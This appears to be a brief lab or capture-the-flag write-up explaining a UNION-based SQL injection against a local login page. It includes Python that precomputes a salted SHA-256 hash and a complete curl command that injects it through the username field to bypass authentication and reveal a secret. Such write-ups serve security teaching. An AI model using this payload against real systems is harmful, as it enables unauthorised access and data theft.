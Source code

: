We are going to use SQL Injection using a UNION statement to get the data.

First off, we look at the code and generate a password_hash value for a password of 'foo' and a salt of 'aaaaaa'

```
$ python
>>> import hashlib
>>> hashlib.sha256("foo" + "aaaaaa").hexdigest()
'1822b05ea84c8defe17bd6c29a4ec5c8f8a017ed2c0b558a8f3327c33c116229'
```

Next we make curl requests to get a logged-in user with the secret revealed.

```
curl -L http://127.0.0.1:5000/login --data "username=' UNION SELECT 1, '1822b05ea84c8defe17bd6c29a4ec5c8f8a017ed2c0b558a8f3327c33c116229', 'aaaaaa' ORDER BY salt LIMIT 1;--&password=foo" -b cookies
```

Change the ID as necessary to get the password, rather than the secret plans or proof.